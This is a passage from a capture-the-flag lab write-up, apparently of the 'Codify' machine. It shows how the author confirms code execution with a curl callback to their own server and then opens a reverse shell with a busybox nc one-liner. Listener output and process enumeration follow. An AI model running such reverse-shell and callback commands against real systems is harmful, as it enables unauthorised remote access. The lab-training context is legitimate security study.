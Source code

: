 ```
}
```
We just need to change the command to execute what we want. If we try with `whoami`, we have an empty output. Is my code really executed? To check that, I setup an HTTP server on my machine and change the command to `curl http://10.10.14.91:8080/`. After running the code, I can see that I had a request to my server:
```
$python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.129.36.69 - - [24/Mar/2024 09:56:32] "GET / HTTP/1.1" 200 -
```
Let's get a reverse shell. I used a command without redirect because there usually are some issues when run through a framework. I prefered to use the busybox command: `busybox nc 10.10.14.91 4444 -e sh`. And I got my reverse shell:
```
$nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.91] from (UNKNOWN) [10.129.36.69] 43186
whoami
svc
```
Unfortunately, this is not enough to get the flag:
```
svc@codify:~$ ls /home
joshua  svc
svc@codify:~$ ls /home/svc
svc@codify:~$ ls /home/joshua/
ls: cannot open directory '/home/joshua/': Permission denied
```
## Machine enumeration
Let's first look at the running processes:
```
svc@codify:~$ ps aux | grep svc
svc         1247  0.1  1.6 650856 67248 ?        Ssl  Mar23   1:47 PM2 v5.3.0: God Daemon (/home/svc/.pm2)
svc         1344  0.2  1.7 882976 70532 ?        Sl   Mar23   2:17 node /var/www/editor/index.js
svc         1346  0.3  1.8 949460 73060 ?        Sl   Mar23   2:59 node /var/www/editor/index.js
svc         1415  0.2  1.7 948016 71320 ?        Sl   Mar23   2:05 node /var/www/editor/index.js
svc         1418  0.3  1.7 948320 71220 ?        Sl   Mar23   3:05 node /var/www/editor/index.js
svc         1438  0.2  1.8 950320 74276 ?        Sl   Mar23   2:42 node /var/www/editor/index.js
svc         1442  0.6  1.8 949740 72532 ?        Sl   Mar23   6:13 node /var/www/editor/index.js
svc         1465  0.2  2.0 1016560 81520 ?       Sl   Mar23   2:08 node /var/www/editor/index.js
svc         1515  0.3  1.8 752328 71532 ?        Sl   Mar23   2:54 node /var/www/editor/index.js
svc         1534  0.2  1.9 953384 77352 ?        Sl   Mar23   2:34 node /var/www/editor/index.js
svc         1854  0.2  1.7 817756 71224 ?        Sl   Mar23   2:09 node /var/www/editor/index.js
svc        10403  0.0  0.0   2888   996 ?        S    09:01   0:00 /bin/sh -c busybox nc 10.10.14.91 4444 -e sh
svc        10404  0.0  0.0   2456     4 ?        S    09:01   0:00 sh
svc        10406  0.0  0.2  17348  9160 ?        S    09:03   0:00 python3 -c import pty; pty.spawn("/bin/bash")
svc        10407  0.0  0.1   8724  5584 pts/0    Ss   09:03   0:00 /bin/bash
svc        10454  0.0  0.0  10068  1584 pts/0    R+   09:13   0:00 ps aux
svc        10455  0.0  0.0   6476  2296 pts/0    S+   09:13   0:00 grep --color=auto svc
```
We can see that there are multiple node processes, not only the one we used to get the reverse shell. We can look at the full command line:
```
$ ps -eaux | grep svc | grep node
```
